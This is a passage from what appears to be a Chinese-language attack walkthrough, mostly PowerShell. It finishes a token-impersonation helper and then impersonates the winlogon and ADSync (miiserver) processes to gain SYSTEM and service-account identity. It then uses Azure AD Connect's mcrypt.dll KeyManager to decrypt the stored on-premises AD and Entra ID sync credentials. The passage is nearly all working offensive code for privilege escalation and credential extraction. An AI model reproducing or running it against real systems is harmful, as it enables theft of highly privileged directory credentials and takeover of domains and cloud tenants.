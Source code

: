 ```powershell
                    return false;
                }
                
                if (!DuplicateToken(hToken, SecurityImpersonation, out dupeToken)) {
                    return false;
                }
                
                return ImpersonateLoggedOnUser(dupeToken);
            }
            finally {
                if (hToken != IntPtr.Zero) CloseHandle(hToken);
                if (dupeToken != IntPtr.Zero) CloseHandle(dupeToken);
            }
        }
    }
"@

    $result = [TokenImpersonation]::ImpersonateProcessToken($ProcessName)
    if ($result) {
        Write-Host "[+] Successfully impersonated $ProcessName process"
        Write-Host "[+] Current identity: $([Security.Principal.WindowsIdentity]::GetCurrent().Name)"
    } else {
        Write-Error "[-] Failed to impersonate process $ProcessName"
    }
}
```

（5）以 ADSync 服务账户身份执行 PowerShell 解密命令，利用之前获取的加密材料对加密凭据进行解密，并将解密后的内容捕获到相应的变量中用于后续处理。

```powershell
# Impersonate winlogon process to obtain SYSTEM privileges
Impersonate-Process -ProcessName "winlogon"
# Impersonate ADSync process
Impersonate-Process -ProcessName "miiserver"

# Remove PSReadLine module to avoid history file access issues
Remove-Module PSReadLine -Force -ErrorAction SilentlyContinue

# Load required assembly
Add-Type -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"

# Create KeyManager instance
$keyManager = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager

# Load key set (parameters obtained from database)
$keyManager.LoadKeySet([guid]$entropy, [guid]$instanceId, $keyId)

# Get active credential key
$activeCredentialKey = $null
$keyManager.GetActiveCredentialKey([ref]$activeCredentialKey)

# Get specific key (Key ID = 1)
$decryptionKey = $null
$keyManager.GetKey(1, [ref]$decryptionKey)

# Decrypt AD encrypted configuration
$adDecryptedConfig = $null
$decryptionKey.DecryptBase64ToString($adEncryptedConfig, [ref]$adDecryptedConfig)

# Decrypt AAD encrypted configuration
$aadDecryptedConfig = $null
$decryptionKey.DecryptBase64ToString($aadEncryptedConfig, [ref]$aadDecryptedConfig)
```